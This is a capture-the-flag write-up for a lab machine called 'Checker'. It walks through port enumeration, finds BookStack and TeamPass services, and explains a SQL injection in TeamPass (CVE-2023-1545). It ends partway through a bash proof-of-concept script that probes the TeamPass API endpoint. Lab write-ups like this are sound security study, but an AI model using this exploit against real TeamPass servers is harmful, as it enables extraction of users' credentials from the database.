 ```yaml
---
layout: post
title: "Checker-Linux-Hard"
date:   2025-07-17 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/afe87a33205a5ffd978c805aa93488a9.webp
---
```


# Checker

# 1. Enumeration
<br/><br/>
As always we start with nmap, there are three ports open
<br/><br/>
![image.png]({{ '/assets/images/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e_image.png' | relative_url }})
<br/><br/>
In port 80 there is a bookstack login, default credentials do not work, we cannot register a new user
<br/><br/>
![image.png]({{ '/assets/images/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e_image_1.png' | relative_url }})
<br/><br/>
We also can reset passwords
<br/><br/>
![image.png]({{ '/assets/images/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e_image_2.png' | relative_url }})
<br/><br/>
TeamPass service is running on port 8080
<br/><br/>
![image.png]({{ '/assets/images/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e_image_3.png' | relative_url }})
<br/><br/>
Search a little bit to find a vulnerability
<br/><br/>
![image.png]({{ '/assets/images/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e_image_4.png' | relative_url }})
<br/><br/>
We don’t have any teampass version disclosed, but a poc of CVE-2023-1545 is present in here and we don’t lose anything if we try
<br/><br/>
![image.png]({{ '/assets/images/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e/1b9be0c7-e5a3-43f1-8122-172edb697ea9-export-4073cd0e-fd32-493d-a9a7-9a3c930aa51e_image_5.png' | relative_url }})
<br/><br/>
It is performing a sql injection giving it a new fake file that is not saved in the database but is compiled with the purpose of spoof the list of valid users, making a login as admin with a lure hash, extracting all users directly from the database.
<br/><br/>
```bash
#Check number of arguments
if [ "$#" -lt 1]; then
	#Output the name of the script
	echo "Usage: $0 <base-url>" 
	exit 1
fi

#Set vulnerable endpoint
vulnerable_url="$1/api/index.php/authorize"

#Check if the api is enabled
check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
```
